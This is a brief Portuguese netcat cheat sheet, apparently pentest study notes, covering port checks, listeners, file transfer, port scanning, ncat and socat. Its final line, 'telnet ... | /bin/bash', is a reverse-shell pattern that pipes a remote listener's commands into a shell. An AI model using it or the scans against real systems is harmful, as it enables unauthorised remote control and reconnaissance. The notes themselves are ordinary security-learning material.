 ## NETCAT

Verificando Portas:

```nc www.site.com.br 21``` 

```nc -v www.site.com.br 80``` 

Verificando serviços em execução:

```netstat -nlpt```

Abrindo Porta:

```nc -vlp 333```

Se conectando a porta aberta:

```nc 192.168.0.1 333```

**Exemplo de IP Logger:**

Abrindo porta:

```nc -vnlp 80```

Alvo apos acessar via browser é possivel capturar o ip:

```nc Site_ou_Ip 80```

**Transferencia de Arquivos:**

Enviando o arquivo para o ip e porta criada:

``` nc -v 192.168.0.1 5050 < ncat.exe ```

Baixando o arquivo enviado:

``` nc -vnlp 5050 > ncat.exe ```

**PortScan**

Scanneando uma unica porta:

``` nc -vnz 192.168.0.1 21 ```

Scaneando um range de portas:

``` nc -vnz 192.168.0.1 20-30 ```

**NCAT**

Obs.: Alem do Netcat você pode usar o ncat caso queira proteger todos os dados que estão trafegando durante o ataque, o ncat possui recursos de criptográfia.

**SOCAT**

Abrindo porta:

``` socat - tcp4-listen:2222 ```

Acessando porta aberta:

``` nc -vn 192.168.0.1 2222 ```

**TELNET**

Abrindo porta:

``` nc -vnlp 4444 ```

Acessando porta aberta:

``` telnet 192.168.0.1 4444 | /bin/bash 




















